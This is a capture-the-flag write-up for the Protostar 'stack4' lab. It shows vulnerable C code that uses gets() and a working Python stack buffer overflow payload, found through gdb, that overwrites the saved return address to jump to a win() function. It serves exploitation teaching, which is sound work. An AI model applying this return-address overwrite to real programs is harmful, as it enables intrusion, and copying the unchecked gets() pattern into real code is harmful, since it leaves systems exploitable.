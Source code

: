 # Stack4
## Briefing
Stack4 takes a look at overwriting saved EIP and standard buffer overflows.

This level is at /opt/protostar/bin/stack4

Hints

1. A variety of introductory papers into buffer overflows may help.
2. gdb lets you do “run < input”
3. EIP is not directly after the end of buffer, compiler padding can also increase the size.
## Source Code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
## Solution
This challenge is pretty much the same as stack3, but we are overwriting the real return address instead of a variable.
So first as usual we need to find out the offset until we are overwriting the return address.
```
exploit = ''
exploit += 'A' * 64 # 64 Bytes in buffer
exploit += 'BBBBCCCCDDDDEEEEFFFFGGGG'

print(exploit)
```
Running this in the usual way, `python file.py > input`
`gdb /opt/protostar/bin/stack4`
`run < input`

```
Program recieved signal SIGSEGV, Segmentation fault. 
0x45454545 in ?? ()
```
We can see that there is a fault at the memory address 0x45454545
0x45 is the hex ascii code for 'E' so we can see that the 4 'E' letters are controling the return address
So there were 12 letters before 'EEEE' so that means that we need 76 letters of padding before we overwrite the return
64 + 12 = 76
So lets modify the script:
```
exploit = ''
exploit += 'A' * 76
exploit += 'BBBB'

print(exploit)
```
If we have done our maths correctly the program should fault at 0x42424242, hex code for 'B'
```
Program recieved signal SIGSEGV, Segmentation fault. 
0x42424242 in ?? ()
```
Ok we have full control of the return address, now we need to find the address of the function.
`p win`
```
$1 = {void (void)} 0x80483f4 <win>
```
So win is at 0x80483f4, great now we just need to add that to our script instead of 'BBBB' as our return address
```
import struct
rp = struct.pack('<L', 0x80483f4)

exploit = ''
exploit += 'A' * 76
exploit += rp

print(exploit)
```
Now lets run this on the actual program because we should have a working exploit
`/opt/protostar/bin/stack4 < input`
```
code flow successfully changed
```
